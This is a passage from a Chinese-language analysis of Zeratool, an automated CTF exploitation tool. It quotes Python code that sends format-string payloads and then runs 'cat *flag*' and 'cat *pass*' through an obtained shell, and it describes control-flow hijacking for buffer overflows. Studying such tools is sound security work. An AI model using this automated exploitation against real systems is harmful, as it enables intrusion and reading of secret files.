 ```python
         if results['flag_found'] == True:
             exploit_results['flag_found'] = results['flag_found']
             exploit_results['input'] = format_input
```

`sendExploit` 函数用于发送 `payload`, 并处理返回信息，如果返回信息包含 “{” 和 “}”，则说明找到 flag。如果没有，返回的可能是 shell，发送 cat命令获取 flag。

```python
proc.sendline()
proc.sendline("ls;\n")
proc.sendline("cat *flag*;\n") # 发送 shell 命令获得 flag
proc.sendline("cat *pass*;\n")
command_results = proc.recvall(timeout=30) 
if '{' in command_results and '}' in command_results: # 查看是否有 flag
    send_results['flag_found'] = True
    print("[+] Flag found:")
    print(command_results.replace('\x20\x20',''))
```

以上就是格式化字符串漏洞利用的大致内容，有些特殊情况的处理没有提及，可以通过阅读源码了解。

接下来我们查看缓冲区溢出漏洞利用的内容。

#### 缓冲区溢出漏洞

[overflowExploiter.py](https://github.com/ChrisTheCoolHut/Zeratool/blob/d4dda1a017/lib/overflowExploiter.py) ，主函数为 `exploitOverflow` 



**利用思路：**修改 pc 值指向 `winfunction / ropchain / shellcode`地址，劫持程序控制流。



首先初始化项目，探索程序状态，设置模拟管理器 `explore` 时的 `step_func` 为 `pickFilter`函数，此处逻辑与检测缓冲区溢出漏洞逻辑相似，只是 `step_func` 不同。

```python
	simgr = p.factory.simgr(state, immutable=False, save_unconstrained=True)
    step_func = pickFilter(simgr,properties) # 设置 step_func 
    ....
    run_environ = {}
    run_environ['type'] = None
    end_state = None
    try:
        @timeout_decorator.timeout(1200)
        def exploreBinary(simgr):
            simgr.explore(find=lambda s: 'type' in s.globals,step_func=step_func) # 探索

        exploreBinary(simgr)
        if 'found' in simgr.stashes and len(simgr.found): # 找到
            end_state = simgr.found[0]
            end_state_eb = simgr.found[0].globals['state_eb']
            run_environ['type'] = end_state.globals['type']
```
